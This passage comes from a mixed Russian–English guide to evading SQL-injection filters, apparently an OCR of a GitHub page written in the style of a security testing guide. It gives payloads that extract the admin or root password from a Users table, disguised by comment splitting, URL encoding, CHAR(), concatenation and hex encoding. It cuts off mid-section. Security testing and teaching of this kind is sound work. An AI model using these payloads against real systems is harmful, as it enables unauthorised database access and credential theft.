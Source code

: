 `'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### URL кодирование

Используйте [online URL encoding](https://meyerweb.com/eric/tools/dencoder/) кодировать оператор SQL

`' UNION SELECT password FROM Users WHERE name='admin'--`

Кодировка URL оператора SQL-инъекции будет

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Character Encoding

Char() функция может использоваться для замены английского символа. Например, char(114,111,111,116) означает root

`' UNION SELECT password FROM Users WHERE name='root'--`

To apply the Char(), the SQL injeciton statement will be

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### String Concatenation

Concatenation разбивает ключевые слова SQL и уклоняется от фильтров. Синтаксис конкатенации варьируется в зависимости от движка базы данных. Возьмите MS SQL движок в качестве примера

`select 1`

Простой оператор SQL можно изменить, как показано ниже, с помощью конкатенации

`EXEC('SEL' + 'ECT 1')`

#### Шестигранное кодирование

Метод шестнадцатеричного кодирования использует шестнадцатеричное кодирование для замены исходного символа оператора SQL. Например, `root` может быть представлен как `726F6F74`

`Select user from users where name = 'root'`

The SQL statement by using HEX value will be:

`Select user from users where name = 726F6F74`

или

`Select user from users where name = unhex('726F6F74')`

#### Объявить переменные

Объявите оператор SQL-инъекции в переменную и выполните его.

Например, оператор SQL-инъекции ниже

`Union Select password`

Определите оператор SQL в переменную `SQLivar`
